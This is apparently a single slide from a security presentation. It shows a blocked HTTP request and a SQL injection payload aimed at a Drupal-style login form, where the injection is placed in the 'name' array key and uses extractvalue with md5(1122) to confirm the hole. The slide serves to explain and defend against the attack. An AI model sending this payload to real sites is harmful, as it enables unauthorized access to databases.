

# What does the exploit look like?
POST /?q=node&destination=node HTTP/1.1" 403 4123 "sucuri.net" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; .NET CLR 1.1.4322)"
Payload:
name [0%20and%20extractvalue(1, concat(0x5c, (select md5(1122) from
information_schema.tables limit 1)));%23%20%20]=removed&name[0]=removed&pass=removed&
removed=removed&form_build_id=&form_id=user_login_block&op=Log+in